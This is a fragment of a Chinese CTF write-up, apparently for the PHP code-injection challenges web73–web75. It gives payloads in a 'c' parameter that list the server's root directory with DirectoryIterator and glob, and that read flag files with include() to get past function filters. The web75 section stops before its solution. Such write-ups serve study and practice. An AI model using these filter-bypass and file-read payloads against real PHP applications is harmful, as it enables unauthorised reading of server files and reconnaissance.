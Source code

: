 

<img src="https://i-blog.csdnimg.cn/blog_migrate/4ec1cb5f49f9a93a036ca4a04494c900.png" alt="" style="max-height:183px; box-sizing:content-box;" />


发现uaf失败

那我们直接读取呢

```cobol
c=include('/flagc.txt');exit(0);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/048d5d4fb3d7223442f4e9b5610f88b5.png" alt="" style="max-height:145px; box-sizing:content-box;" />


发现没有过滤 include 相比 72 禁用了 uaf 但是 没有禁用include

## web74

```php
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/662203c6b85edb1ab4f423bb0d459814.png" alt="" style="max-height:153px; box-sizing:content-box;" />


然后include即可

```cobol
c=include('/flagx.txt');exit(0);
```

## web75 PDD执行读取文件

```php
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);?>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ae327e1b9684750280e0efef2d287194.png" alt="" style="max-height:122px; box-sizing:content-box;" />






<img src="https://i-blog.csdnimg.cn/blog_migrate/c1e1a867032d4afa4ba76e6cda4a2100.png" alt="" style="max-height:112px; box-sizing:content-box;" />


include 被ban



<img src="https://i-blog.csdnimg.cn/blog_migrate/d16c67958543ee909c052f1551c7fefa.png" alt="" style="max-height:53px; box-sizing:content-box;" />

